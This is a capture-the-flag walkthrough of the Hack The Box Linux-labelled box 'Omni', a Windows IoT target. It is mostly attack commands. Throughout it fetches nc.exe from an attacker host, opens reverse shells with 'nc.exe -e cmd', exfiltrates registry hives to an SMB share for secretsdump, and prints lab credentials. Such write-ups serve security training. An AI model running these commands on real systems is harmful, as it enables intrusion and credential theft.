 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🛰️ Recon

**Full Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.204
```

**Service Version Scan**
```bash
nmap -p 135,5985,8080,29817,29819,29820 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.204
```

---

## 🌐 Web Enumeration

**[HTTP](HTTP) on port 8080 prompts for auth:**  
> Realm: *Windows Device Portal*

Add to `/etc/hosts`:
```bash
echo "10.10.10.204 omni.htb" | sudo tee -a /etc/hosts
```

---

## 🧰 Exploitation - SYSTEM Access via Sirep

**Tool**: [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT)

**Basic Command Execution**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c dir c:\ '
```

**Working Directory for Staging**
```bash
dir c:\windows\system32\spool\drivers\color /b
```

**Upload nc.exe**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c powershell Invoke-WebRequest -outfile c:\windows\system32\spool\drivers\color\nc.exe -uri http://10.10.14.6/nc64.exe'
```

**Start Listener**
```bash
rlwrap nc -lnvp 443
```

**Execute Reverse Shell**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c c:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443'
```

---

## 🪪 SYSTEM to app

**user.txt is encrypted**
```powershell
(Import-CliXml -Path C:\data\users\app\user.txt).GetNetworkCredential().Password
```

---

## 🔐 Dumping Hashes (Alternate method)

**Start SMB Server**
```bash
smbserver.py share . -smb2support -username df -password df
```

**Mount Share & Dump Registry**
```cmd
net use \\10.10.14.6\share /user:df df
reg save HKLM\sam \\10.10.14.6\share\sam
reg save HKLM\system \\10.10.14.6\share\system
reg save HKLM\security \\10.10.14.6\share\security
```

**Extract with secretsdump**
```bash
secretsdump.py -sam sam -security security -system system LOCAL
```

**Crack with Hashcat or Jupyter Notebook (Penglab)**

---

## 🧑‍💻 Shell as app via HTTP:8080 (Windows Device Portal)

**Login with creds**
```text
Username: app
Password: mesh5143
```

**Command Execution on Portal**:  
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🔑 Privesc app → administrator

**Found Cred Dump File**
```powershell
Import-CliXml -Path iot-admin.xml
```

**Get Creds**
```powershell
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential() | fl
```

**Output:**
```text
Username : administrator
Password : _1nt3rn37ofTh1nGz
```

---

## 🧑‍🔬 Shell as Administrator

**Login to Portal with Admin Credentials**

**Reverse Shell**
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🏁 Loot Flags

**Get root.txt**
```powershell
(Import-CliXml -Path C:\data\users\administrator\root.txt).GetNetworkCredential().Password
```